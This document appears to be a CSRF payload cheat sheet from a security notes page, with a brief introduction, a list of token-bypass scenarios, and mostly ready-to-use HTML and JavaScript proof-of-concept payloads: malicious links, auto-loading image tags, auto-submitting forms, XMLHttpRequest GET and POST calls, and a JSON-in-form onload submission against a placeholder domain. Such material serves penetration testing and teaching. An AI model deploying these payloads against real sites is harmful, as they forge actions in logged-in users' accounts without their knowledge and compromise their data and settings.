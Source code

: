 ### **Introduction**

Cross-Site Request Forgery (CSRF) is a  vulnerability where attacker trick user into performing actions on a web application where they are authenticated, without their knowledge. This can compromise the security of user data and account settings. CSRF is commonly mitigated by using tokens and modern browser security features.

### **Common Attack Scenarios:**

1.  Removing Anti-CSRF Tokens: Attacker manipulate form data to either remove or alter the anti-CSRF tokens, which are intended to prevent unauthorized actions.
2.  Spoofing Tokens: If a backend system fails to verify the integrity of a CSRF token properly, attacker may slightly modify the token to bypass security checks.
3.  Exploiting Static Token Segments: Attacker take advantage of CSRF tokens that contain predictable or unchanging parts, using these segments to fool the validation process.
4.  Reusing CSRF Tokens: Attacker may capture valid CSRF tokens from legitimate requests and reuse them in unauthorized requests to mimic authentic interactions.

### **Simple GET Request**

```html
<!-- Direct user interaction required -->
<a href="http://[DOMAIN_NAME]/endpoint?parameter=CSRFd">Click here to view!</a>
```

### **GET Request Without User Interaction**

```html
<!-- Automatically triggers when the page loads -->
<img src="http://[DOMAIN_NAME]/endpoint?parameter=CSRFd" alt="img">
```

### **Simple POST Request**

```html
<!-- User must click the submit button -->
<form action="http://[DOMAIN_NAME]/endpoint" method="POST">
  <input type="hidden" name="parameter" value="CSRFd">
  <input type="submit" value="Submit Request">
</form>
```

### **POST Request Without User Interaction**

```html
<!-- Automatically submits on page load -->
<form id="autosubmit" action="http://[DOMAIN_NAME]/endpoint" method="POST">
  <input type="hidden" name="parameter" value="CSRFd">
  <input type="submit" value="Submit Request">
</form>
<script>
  document.getElementById('autosubmit').submit();
</script>
```

### **JSON GET Request**

```html
<!-- Can be detected and blocked by modern browsers due to CORS policy -->
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[DOMAIN_NAME]/endpoint");
  xhr.send();
</script>
```

### **JSON POST Request**

```html
<!-- Using JSON to send data in a POST request -->
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "http://[DOMAIN_NAME]/endpoint");
  xhr.setRequestHeader("Content-Type", "application/json");
  xhr.send(JSON.stringify({parameter: "CSRFd"}));
</script>
```

### **CSRF with JSON Without User Interaction**

```html
<body onload='document.forms[0].submit()'>
<form action="https://[DOMAIN_NAME]?_method=PUT" method="POST" enctype="application/json">
  <input type="hidden" name='data' value='{"parameter":"newValue"}'>
  <input type="submit" value="Send">
</form>
```